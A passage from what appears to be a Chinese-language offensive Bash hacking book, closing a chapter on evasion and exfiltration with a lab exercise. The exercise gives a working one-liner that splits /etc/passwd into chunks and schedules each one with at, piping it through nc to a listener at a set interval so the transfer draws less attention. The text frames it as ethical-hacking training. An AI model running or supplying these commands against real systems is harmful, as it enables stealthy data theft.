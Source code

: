 我们可以通过 --number 参数将文件拆分为相等大小的块，而不是按大小或行数拆分。例如，清单 12-35 将文件拆分成 10 个独立的文件。

```
$ **split -d --verbose --number=10 1000_line_file.txt**
creating file 'x00'
creating file 'x01'
`--snip--`
creating file 'x08'
creating file 'x09' 
```

清单 12-35：将文件拆分成 10 个部分

你选择的分片方法最终取决于你自己，每种方法都有其优缺点。如果你将文件分成太多块，可能需要进行很多复杂的网络调用来重新组合它们。然而，将文件分成少数几个大块可能会触发检测。寻找一个在你所处情境下合理的平衡点。

练习 29：分片和调度数据外泄

在这个练习中，你将使用两种技术进行数据外泄：先对文件进行分片，然后调度每个分片在不同的时间发送，以避免引起怀疑。

在 Kali 上的端口 12345/TCP 上启动监听：

```
$ **socat TCP-LISTEN:12345,reuseaddr,fork -**
```

然后，在*p-jumpbox-01*（172.16.10.13）中运行清单 12-36 中显示的命令。

```
$ **cd /tmp**
$ ❶ **for file in $(split /etc/passwd -l 5 -d --verbose); do** ❷ **for prefix**
**in $(echo "${file}" | awk '{print $NF}' | grep -o '[0-9]*'); do** ❸ **echo**
**"cat /tmp/x${prefix} | nc 172.16.10.1 12345" | at now "+${prefix}**
**minutes"; done; done** 
```

清单 12-36：对文件进行分片并调度外泄

我们将*/etc/passwd*转换成多个五行文件，然后使用 for 循环迭代这些文件 ❶。另一个 for 循环 ❷ 从文件名中提取每个文件的编号（如 *00*、*01* 或 *02*）。在 ❸ 时，我们将命令通过管道传输到 At 任务调度器，将每个文件发送到监听器。我们调度该命令以在从后缀提取的分钟数后运行。

监听器应在几分钟内开始接收数据。所有任务执行完毕后，你将完全重建*/etc/passwd*文件。要检查已创建的 At 任务，可以使用 atq 命令。请注意，你的任务 ID 可能会有所不同：

```
$ **atq**
44    Sun Dec 10 04:12:00 a root
43    Sun Dec 10 04:11:00 a root
45    Sun Dec 10 04:13:00 a root
46    Sun Dec 10 04:14:00 a root
47    Sun Dec 10 04:15:00 a root 
```

为了改进此练习，请使用不太可预测的间隔来调度任务。然而，记住，文件的顺序很重要；当你接收它们时，它们的内容应该是有意义的。

## 总结

在本章中，你学习了安全控制，随后编写了一个脚本来检测系统中的安全软件。你还学习了伪装和隐藏进程的技巧，以及预加载恶意共享库。你篡改了登录会话的元数据，并通过使用多种协议和技术执行了数据外泄。

你现在已经达到了令人兴奋的 Bash 黑客之旅的巅峰。你已经掌握了脚本基础，执行了高级文本处理技巧，并构建了自动化工具来利用易受攻击的服务。这一强大的技能组合应该为你未来的所有道德黑客任务提供保障。

为了将你的进攻性 Bash 技能提升到新高度，我们鼓励你探索本书未涉及的黑客工具，并利用 Bash 将它们集成到你自定义的黑客工作流中。毕竟，学习新脚本技巧的最佳方式就是从一个想法出发，并挑战自己将其实现。祝你好运！
